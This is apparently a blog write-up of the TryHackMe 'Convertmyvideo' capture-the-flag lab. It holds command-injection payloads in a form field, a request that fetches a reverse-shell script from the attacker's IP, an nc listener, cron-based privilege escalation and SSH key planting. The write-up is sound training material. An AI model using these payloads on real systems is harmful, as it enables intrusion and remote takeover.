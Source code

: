 ```yaml
---
layout: post
title:  "[THM] Convertmyvideo"
date:   2021-05-27 2:18:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, linux, Tryhackme, Writeup, cron, ssh, command_injection, bonus]
categories: Tryhackme
---
```


It is a linux machine that allows us to exploit a vulnerability found in the OWASP Top 10 (2017).

---

## Enumeration
### Nmap
*Ports:*
* 22/tcp --> OpenSSH 7.6p1
* 80/tcp --> Apache httpd 2.4.29


```bash
nmap -p- --min-rate 5000 10.10.145.178 -oG Allport             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:01 EDT
Stats: 0:01:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 22.33% done; ETC: 20:06 (0:03:46 remaining)
Stats: 0:01:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.09% done; ETC: 20:06 (0:03:43 remaining)
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 32.92% done; ETC: 20:06 (0:03:24 remaining)
Warning: 10.10.145.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.145.178
Host is up (0.036s latency).
Not shown: 41212 filtered ports, 24321 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 266.37 seconds
```
*More exhaustive scanning:*
```sql 
nmap -sC -sV -Pn -p22,80 10.10.145.178 -oN Scan_Port     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:09 EDT
Nmap scan report for 10.10.145.178
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```


### Fuzzer

After fuzzing I came across a directory which is admin:

![](/images_blog/img_convertmyvideo/Pastedimage20210416201737.png)
![Pastedimage20210416201737](https://user-images.githubusercontent.com/76759292/127757710-64e265d5-b99f-4397-9f32-b29238611ffc.png)


## PoC Command Injection

After a while of testing I found a command injection in the part where the url is inserted

```bash
POST / HTTP/1.1
Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/


yt_url=|whoami;
```

![](/images_blog/img_convertmyvideo/Pastedimage20210416210230.png)
![Pastedimage20210416210230](https://user-images.githubusercontent.com/76759292/127757723-4dc3ddf8-2de9-4564-bee5-97ab61d011b3.png)


We can also visualize the flag from here (For the spacing I use Input Field Separators which is an input field separator variable):  
  

![](/images_blog/img_convertmyvideo/Pastedimage20210416211813.png)
![Pastedimage20210416211813](https://user-images.githubusercontent.com/76759292/127757727-fc4e3dd1-fd78-45e3-b4d8-106c00b23e09.png)

We can visualize the content that admin has:
![](/images_blog/img_convertmyvideo/Pastedimage20210416211957.png)
![Pastedimage20210416211957](https://user-images.githubusercontent.com/76759292/127757731-3a285cca-4e6f-474d-89e3-6e62d08a27d2.png)

Something that is striking is the content that has .htpasswd

![](/images_blog/img_convertmyvideo/Pastedimage20210416212308.png)
![Pastedimage20210416212308](https://user-images.githubusercontent.com/76759292/127757745-e60616cb-5985-48c0-b63c-f9c6d51b228a.png)


```
"output":"itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y\/\n"
```

With this we will be able to crack ```jesie``` and later to enter in the panel that appears when we enter to /admin. This time we will go for another vector.

## Shell Initial

First we will do a simple reverse with bash and then we will set up a server with python:

```bash
POST / HTTP/1.1

Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/

yt_url=|wget${IFS}10.9.206.201:8000/rev.sh;
```

Then we run the reverse:

```
POST / HTTP/1.1
Host: 10.10.145.178
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://10.10.145.178
Connection: close
Referer: http://10.10.145.178/

yt_url=|bash${IFS}rev.sh;
```


![](/images_blog/img_convertmyvideo/Pastedimage20210416213538.png)
![Pastedimage20210416213538](https://user-images.githubusercontent.com/76759292/127757751-7f9e8d86-b68b-47a8-8ddd-3a204c9e9554.png)


```sql
rlwrap nc -lvnp 443                                  
listening on [any] 443 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.145.178] 42824
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ 
```

## PrivEsc

The first utility to use is ```linpeas``` this shows us the same thing we got out with the command injection:

```
Reading /var/www/html/admin/.htpasswd                                        
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```


An interesting script is clean.sh, the idea is basically to add a reverse and wait for it to be executed:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174646.png)
![Pastedimage20210521174646](https://user-images.githubusercontent.com/76759292/127757755-383cfbca-aa66-43e0-a23b-57a135cc6f93.png)


This image confirms my theory that this script is basically executed by root through a cron job:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174719.png)
![Pastedimage20210521174719](https://user-images.githubusercontent.com/76759292/127757762-889d4ecd-dce2-4c25-82d0-63334389a4ac.png)


```bash
cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
root@dmv:~# 
```

MACHINE PWNED!!!!!

## Extra 

This does not go with the resolution of the machine but I find interesting the issue of local port forwarding that allows us to visualize services that can only be seen in the machine locally (This is not the case but assuming that we find ourselves later with this).

First we generate a pair of keys with ssh-keygen:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180334.png)
![Pastedimage20210521180334](https://user-images.githubusercontent.com/76759292/127757767-6490e00f-bc47-4c89-a208-7a4badd90d52.png)


We add our key to the authorized_keys:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180445.png)
![Pastedimage20210521180445](https://user-images.githubusercontent.com/76759292/127757768-6ceedccb-bf53-4e71-bcb9-77b6513f795c.png)


We test that everything is correct:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180621.png)
![Pastedimage20210521180621](https://user-images.githubusercontent.com/76759292/127757769-49ef382b-cbd0-403f-b77b-e34d1beb161c.png)


With the following command we are telling it that we want port 80 of the victim machine to be mirrored on port 8084 of our machine:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181139.png)
![Pastedimage20210521181139](https://user-images.githubusercontent.com/76759292/127757771-a48a1471-51f3-4c4c-88bc-9d0e4e66cfbc.png)


This is how we could visualize it:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181155.png)
![Pastedimage20210521181155](https://user-images.githubusercontent.com/76759292/127757779-2cb3c5c9-5c6f-4230-95ee-3e66f5b4249d.png)


On this machine we were able to exploit a command injection and subsequently abuse a cron job.

<p align="center">
<img src="https://tenor.com/view/typing-petty-fast-cloudy-with-a-chance-of-meatballs-flint-lockwood-gif-4907824.gif" width="200" height="200" />
</p>

